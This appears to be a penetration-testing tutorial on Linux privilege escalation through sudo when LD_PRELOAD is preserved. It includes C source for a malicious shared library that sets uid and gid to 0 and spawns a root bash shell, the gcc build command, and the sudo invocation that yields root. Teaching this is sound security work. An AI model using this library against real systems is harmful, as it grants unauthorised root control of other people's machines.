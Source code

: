 # Sudo + LD\_PRELOAD (Shared Libraries)

For this attack, we need user with sudo access to run some command (can be any command) + LD\_PRELOAD variable to persist with sudo call.

**Shared libraries** are collections of precompiled code that can be used by multiple programs simultaneously. They provide a way to modularize code, allowing functions and data to be shared across different applications without the need to duplicate the code.

**LD\_PRELOAD**: An environment variable used in Unix-like operating systems to specify a shared library to be loaded before others when a program is run. It can be used to override functions in standard libraries.

## Understanding the Context:

* If a user has permission to run a program with **sudo**, but that program calls functions from shared libraries (like libc), you can use **LD\_PRELOAD** to inject your own shared library that modifies the behavior of these functions.

## Example User

```
user@pc1:~$ sudo -l
Matching Defaults entries for dollarboysushil on pc1:
    env_reset, mail_badpass,................................. ,env_keep+=LD_PRELOAD

User dollarboysushil may run the following commands on pc1 :
    (root) NOPASSWD: /usr/bin/ping
```



## Attack Scenario

From above example, we can see user dollarboysushil can use ping command as root without root's password.\
Also, we can see `env_keep+=LD_PRELOAD`which means environment variable are preserver when using sudo.

For the attack,\
We are going to craft a malicious shared libraries, then we will include this malicious shared library with the `LD_PRELOAD`variable.\
Then when we run sudo ping, we will be able to load our malicious shared libraries.



### Creating malicious shared libraries

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

in above malicious.c file, we are unsetting our environment variable (LD\_PRELOAD), then we are setting our gid and uid to 0 (root) and then we are spawning bash shell

Compiling this malicious.c

<pre><code><strong>user@pc1 $: gcc -fPIC -shared -o malicious.so malicious.c -nostartfiles
</strong></code></pre>

Here, we are compiling our malicious.c code into shared library file, malicious.so

Then when we run ping as sudo,&#x20;

```
user@pc1 $: sudo LD_PRELOAD=/locatio_of_malicious_library/malicious.so /usr/bin/ping
root@pc2 #: whoami
root
```

We are now, root

Watch this excellent video by conda.[https://youtu.be/bzjnIi5u9OQ?list=PLDrNMcTNhhYrBNZ\_FdtMq-gLFQeUZFzWV](https://youtu.be/bzjnIi5u9OQ?list=PLDrNMcTNhhYrBNZ\_FdtMq-gLFQeUZFzWV)



